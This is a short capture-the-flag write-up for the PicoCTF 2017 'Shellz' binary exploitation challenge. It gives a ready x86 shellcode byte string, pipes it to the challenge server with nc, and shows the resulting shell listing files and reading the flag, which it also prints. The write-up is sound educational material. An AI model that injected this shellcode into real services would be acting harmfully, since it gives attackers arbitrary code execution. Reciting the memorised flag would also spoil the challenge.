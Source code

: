 # PicoCTF 2017- Level 2 - Binary Exploitation 1

**Title:** Shellz  
**Category:** Binary Exploitation  
**Points:** 55  
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: [shellz](shellz)! [Source](shellz.c). Connect on shell2017.picoctf.com:6942.  

**Hint:**

>There is a bunch of preexisting shellcode already out there!  

## Solution

With this one we are entering the world of shellcode injection. As explained in the hint, a lot of shellcode already exist so let's just use [this one](https://www.exploit-db.com/exploits/36395/):
>$ python -c "print('\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80\x96\xcd\x80')" > shellcode  
>$ cat shellcode - | nc shell2017.picoctf.com 6942  
>My mother told me to never accept things from strangers  
>How bad could running a couple bytes be though?  
>Give me 40 bytes:  
>ls -la  
>total 68  
>drwxr-x---   2 hacksports shellz_9    4096 Apr  3  2017 .  
>drwxr-x--x 573 root       root       36864 Apr 16  2017 ..  
>-r--r-----   1 hacksports shellz_9      33 Mar 31  2017 flag.txt  
>-rwxr-xr-x   1 hacksports hacksports  5872 Mar 31  2017 shellz  
>-rwxr-sr-x   1 hacksports shellz_9    6936 Mar 31  2017 shellz_no_aslr  
>-rwxr-sr-x   1 hacksports shellz_9     132 Apr  3  2017 xinetd_wrapper.sh  
>cat flag.txt  
>4effa67d6909029fd3cc45600f024e3f  


The flag for this problem is `4effa67d6909029fd3cc45600f024e3f`